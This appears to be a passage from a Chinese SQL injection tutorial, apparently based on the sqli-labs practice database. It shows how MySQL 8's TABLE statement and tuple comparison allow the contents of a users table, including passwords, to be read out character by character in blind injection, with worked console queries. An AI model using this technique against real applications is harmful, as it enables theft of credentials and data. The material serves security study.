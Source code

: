 ### 4.盲注查询任意表中的内容

语句`table users limit 1;`的查询结果：

```sql
mysql> table users limit 1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

实质上是`(id, username, password)`与`(1, 'Dumb', 'Dumb')`进行比较，比较顺序为自左向右，第一列(也就是第一个元组元素)判断正确再判断第二列(也就是第二个元组元素)。
两个元组第一个字符比大小，如果第一个字符相等就比第二个字符的大小，以此类推，最终结果即为元组的大小。

```sql
mysql> select ((1,'','')<(table users limit 1));
+-----------------------------------+
| ((1,'','')<(table users limit 1)) |
+-----------------------------------+
|                                 1 |
+-----------------------------------+
1 row in set (0.00 sec)

mysql> select ((2,'','')<(table users limit 1));
+-----------------------------------+
| ((2,'','')<(table users limit 1)) |
+-----------------------------------+
|                                 0 |
+-----------------------------------+
1 row in set (0.00 sec)

mysql> select ((1,'Du','')<(table users limit 1));
+-------------------------------------+
| ((1,'Du','')<(table users limit 1)) |
+-------------------------------------+
|                                   1 |
+-------------------------------------+
1 row in set (0.00 sec)

mysql> select ((1,'Dum','')<(table users limit 1));
+--------------------------------------+
| ((1,'Dum','')<(table users limit 1)) |
+--------------------------------------+
|                                    1 |
+--------------------------------------+
1 row in set (0.00 sec)

mysql> select ((1,'Dumb','')<(table users limit 1));
+---------------------------------------+
| ((1,'Dumb','')<(table users limit 1)) |
+---------------------------------------+
|                                     1 |
+---------------------------------------+
1 row in set (0.00 sec)

mysql> select ((1,'Dumb','D')<(table users limit 1));
+----------------------------------------+
| ((1,'Dumb','D')<(table users limit 1)) |
+----------------------------------------+
|                                      1 |
+----------------------------------------+
```